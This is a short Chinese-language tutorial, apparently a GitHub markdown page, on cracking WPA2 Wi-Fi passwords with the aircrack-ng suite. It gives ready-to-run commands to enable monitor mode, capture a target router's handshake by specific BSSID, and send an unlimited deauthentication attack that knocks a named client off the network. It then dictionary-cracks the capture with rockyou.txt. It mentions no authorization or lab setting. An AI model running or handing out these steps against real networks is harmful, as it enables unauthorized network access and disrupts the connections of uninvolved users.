


总操作流程：
- 1、开启
- 2、抓包
- 3、破解

***

# 开启

>1、开启监听模式

```shell
ifconfig wlan0 up

airmon-ng start wlan0

ifconfig
```

- 成功标志



>2、开始扫描附近的无线网络

```shell
airodump-ng wlan0mon
```


# 抓包

>1、监听与获取

```
airodump-ng wlan0mon --bssid 78:02:F8:27:F8:BB -c 6 -w wpa2 
```
 -c指定频道号
 –bssid指定路由器bssid
 -w指定抓取的数据包保存位置

!(image/2-3.png)

 > 2、发起攻击（新开一个窗口，监听与获取那个窗口不用关闭）

 ```shell
 aireplay-ng -0 0 -a 78:02:F8:27:F8:BB -c 30:B4:9E:D7:DA:71 wlan0mon
 ```

-0表示发起deauthentication攻击， 0为无限
-a指定无线路由器BSSID
-c指定强制断开的设备

- 成功标志

!(image/2-4.png)

# 破解 

```
airmon-ng stop wlan0mon

# 解压字典
gzip -d /usr/share/wordlists/rockyou.txt.gz

cd ~

# 可以看到抓包的-w后的 wpa2的名字的.cap文件

ls wpa*

# 第一次抓包是01，第二次抓包是02
aircrack-ng -a2 -b 78:02:F8:27:F8:BB -w /usr/share/wordlists/rockyou.txt wpa2-01.cap

```

!